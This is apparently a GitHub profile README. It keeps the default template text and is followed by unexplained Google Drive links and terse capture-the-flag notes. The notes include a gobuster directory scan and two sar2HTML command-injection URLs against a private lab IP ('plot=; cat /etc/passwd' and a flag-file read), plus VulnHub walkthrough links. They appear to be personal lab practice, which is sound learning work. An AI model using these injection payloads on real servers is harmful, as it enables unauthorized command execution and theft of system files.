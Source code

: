 - 👋 Hi, I’m @Sharvinleon
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Sharvinleon/Sharvinleon is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->https://drive.google.com/file/d/1Ds6vnRHAIvX3xSbM9M_1v1jjWekJgnRK/view?usp=drivesdk
https://drive.google.com/file/d/1pfe99sbOOA7NtDNe-s1VieMdNp9yFdLD/view?usp=drivesdk
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt-u http://(ip)
192.168.79.131/sar2HTML/index.php?plot=; cat /etc/passwd
192.168.79.131/sar2HTML/index.php?plot=; cat /home/love/Desktop/user.txt
https://russellmurad.medium.com/hacking-messaih-1-vulnhub-walkthrough-601147727dcc
https://resources.infosecinstitute.com/topics/capture-the-flag/victim-1-vulnhub-ctf-walkthrough/
